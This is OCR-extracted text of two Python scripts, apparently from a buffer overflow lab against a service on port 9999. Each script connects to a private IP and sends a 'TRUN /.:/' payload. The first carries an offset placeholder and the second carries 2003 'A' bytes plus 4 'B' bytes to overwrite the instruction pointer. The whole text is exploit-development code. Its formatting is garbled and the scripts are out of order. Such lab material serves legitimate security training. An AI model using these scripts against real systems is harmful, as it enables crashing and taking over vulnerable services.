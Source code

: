 
offset = \"\" #offset here

 

try:

> s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
>
> s.connect((\'192.168.4.104\',9999))

 

> payload = \"TRUN /.:/\" + offset

 

> s.send((payload.encode()))
>
> s.close()

except:

> print (\"Error connecting to server\")
>
> sys.exit()

 

 

#!/usr/bin/python3

 

import sys, socket

from time import sleep

 

shellcode = \"A\" \* 2003 + \"B\" \* 4

 

try:

> s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
>
> s.connect((\'192.168.4.104\',9999))

 

> payload = \"TRUN /.:/\" + shellcode

 

> s.send((payload.encode()))
>
> s.close()

except:

> print (\"Error connecting to server\")
>
> sys.exit()

 
